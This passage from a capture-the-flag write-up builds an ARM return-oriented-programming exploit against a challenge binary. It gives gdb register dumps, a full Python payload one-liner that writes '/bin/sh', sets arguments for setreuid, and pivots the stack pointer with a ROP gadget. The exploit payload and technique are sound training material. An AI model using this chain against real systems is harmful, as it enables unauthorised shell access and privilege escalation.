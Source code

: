 ```gdb
r7             0x0	0
r8             0x0	0
r9             0x0	0
r10            0xb6fe4000	3070115840
r11            0x43434343	1128481603
r12            0x0	0
sp             0x2105c	0x2105c
lr             0xb6f1c79b	-1225668709
pc             0x44444444	0x44444444
cpsr           0x60070010	1611071504
(gdb) x/3xw 0x21050
0x21050:	0x000004de	0x43434343	0x44444444
```
Now, we succeed to write "/bin/sh" to 0x21000, and set _r3_ and _r4_ to 1246 so _r1_ and _r0_ will be set to it, when we'll jump to call **setreuid**.<br>
Techincally, we're ready to jump to **setreuid**. But, unfortunately the _sp_ is to low for the **system** function. That will cause the stack to reach an unwritable address. So, we'll have to change the _sp_ before we'll jump there.<br><br>

According to ROPgadget, the ```sub sp, fp, #4 ; pop {fp, pc}``` is exactly what we need.<br>
So, in the last jump in our payload, we'll need to set _fp_ to a high enough value, so _sp_ will be there as well. In addition, because the _sp_ is now changed, we'll need to fill the address until the new value to junk bytes, so we'll be able to retake control on the _fp_ and the _pc_.<br><br>

After some tries:
```gdb
((gdb) run < <(python -c "print 'A'*64 + '\x44\x10\x02\x00' + '\x58\x06\x01\x00' + '\n' + '/bin/sh\x00' + 'A'*56 + 'CCCC' + '\xf8\x03\x01\x00' + '\xde\x04\x00\x00' + '\xb0\x05\x01\x00' + '\xde\x04\x00\x00' + '\x00\x13\x02\x00' + '\x80\x06\x01\x00' + 'A'*672 + 'CCCC' + 'DDDD'")
Starting program: /challenge/app-systeme/ch46/ch46 < <(python -c "print 'A'*64 + '\x44\x10\x02\x00' + '\x58\x06\x01\x00' + '\n' + '/bin/sh\x00' + 'A'*56 + 'CCCC' + '\xf8\x03\x01\x00' + '\xde\x04\x00\x00' + '\xb0\x05\x01\x00' + '\xde\x04\x00\x00' + '\x00\x13\x02\x00' + '\x80\x06\x01\x00' + 'A'*672 + 'CCCC' + 'DDDD'")
Cannot parse expression `.L1185 4@r4'.
warning: Probes-based dynamic linker interface failed.
Reverting to original interface.

Give me data to dump:
Payload is: 
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 44 10 02 
Payload is: 
2f 62 69 6e 2f 73 68 

Program received signal SIGSEGV, Segmentation fault.
0x44444444 in ?? ()
(gdb) info registers
r0             0x7	7
r1             0x0	0
r2             0x1	1
r3             0x4de	1246
r4             0x4de	1246
r5             0x0	0
r6             0x0	0
r7             0x0	0
r8             0x0	0
r9             0x0	0
r10            0xb6f00000	3069181952
r11            0x43434343	1128481603
r12            0x0	0
sp             0x21304	0x21304
lr             0xb6e3879b	-1226602597
pc             0x44444444	0x44444444
```